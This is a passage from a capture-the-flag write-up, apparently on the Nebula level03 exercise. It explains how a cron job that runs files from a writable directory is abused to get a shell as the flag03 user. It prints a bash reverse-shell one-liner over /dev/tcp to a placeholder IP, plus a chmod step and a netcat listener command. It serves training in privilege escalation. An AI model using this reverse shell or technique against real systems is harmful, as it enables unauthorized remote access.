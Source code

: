 The script executes each file that is in the `writable.d` directory, and then deletes such file. 

- `ulimit -t` Specifies a process' maximum running time, in seconds.
- `bash -x` only executes the file if it is an executable.

> Each process has a set of resource limits that can be used to restrict the amounts of
various system resources that the process may consume. For example, we may want
to set resource limits on a process before executing an arbitrary program, if we are
concerned that it may consume excessive resources. We can set the resource limits
of the shell using the *ulimit* built-in command (limit in the C shell). These limits are
inherited by the processes that the shell creates to execute user commands. - The Linux Programming Interface
> 

Since the `writable.sh` script is scheduled in the crontab and it has flag03 user permisisons, we can write a script that generates a reverse shell (run by flag03) and put it inside the `writable.d` directory. In here, we want a reverse shell because the process is limited to 5 seconds with `ulimit`, so if we only call `/bin/bash` locally, we won’t have time to do pretty much anything.

So we create the script that generates the reverse shell :

```bash
#!/bin/bash
bash -i >& /dev/tcp/<@IP>/<Port> 0>&1
```

This script needs to have executable permissions or it won’t be called (Due to `-x`) :
`chmod +x shell.sh`

Now we can set up a `netcat` listener with `nc -nlvp <port>` and just wait for the crontab to execute `writable.sh`.

As said, the script is run with flag03 permissions and we get our shell :

![Untitled](../images/Nebula0006/Untitled%207.png)

Just to show that there is no magic going on, I logged in with the nebula user (the godmode for this machine) and we can see a crontab that shows [writable.sh](http://writable.sh) is executed every 3 minutes.
